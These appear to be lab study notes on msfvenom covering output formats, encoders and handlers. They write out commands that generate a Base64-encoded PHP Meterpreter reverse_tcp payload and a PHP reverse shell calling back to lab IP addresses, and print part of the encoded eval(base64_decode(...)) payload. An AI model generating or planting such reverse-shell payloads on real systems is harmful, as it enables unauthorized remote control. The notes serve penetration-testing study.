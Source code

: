 \


## Output formats

You can either generate stand-alone payloads (e.g. a Windows executable for Meterpreter) or get a usable raw format (e.g. python). The`msfvenom --list formats` command can be used to list supported output formats

## Encoders

Contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system. As the name suggests, they encode the payload. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem. The example below shows the usage of encoding (with the `-e` parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was `raw`.

{% code title="Generating a PHP payload" overflow="wrap" %}
```shell-session
root@ip-10-10-186-44:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 LPORT=4567 -f raw -e php/base64
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 1507 (iteration=0)
php/base64 chosen with final size 1507
Payload size: 1507 bytes
eval(base64_decode(Lyo8P3BocCAvKiovIGVycm9yX3JlcG9ydGluZygwKTsgJGlwID0gJzEwLjEwLjE4Ni40NCc7ICRwb3J0ID0gNDQ0NDsgaWYgKCgkZiA9ICdzdHJlYW1fc29ja2V0X2NsaWVudCcpICYmIGlzX2NhbGx
...
IuZGlzYWJsZV9ldmFsJykpIHsgJHN1aG9zaW5fYnlwYXNzPWNyZWF0ZV9mdW5jdGlvbignJywgJGIpOyAkc3Vob3Npbl9ieXBhc3MoKTsgfSBlbHNlIHsgZXZhbCgkYik7IH0gZGllKCk7));
root@ip-10-10-186-44:~#
```
{% endcode %}

`-o` parameter specifies the output location and filename for the generated payload.

## Handlers

it catches reveres shells.

{% code title="Generating a PHPreverse shell" overflow="wrap" %}
```shell-session
root@ip-10-0-2-19:~# msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3020 bytes
root@ip-10-0-2-19:~#
```
{% endcode %}
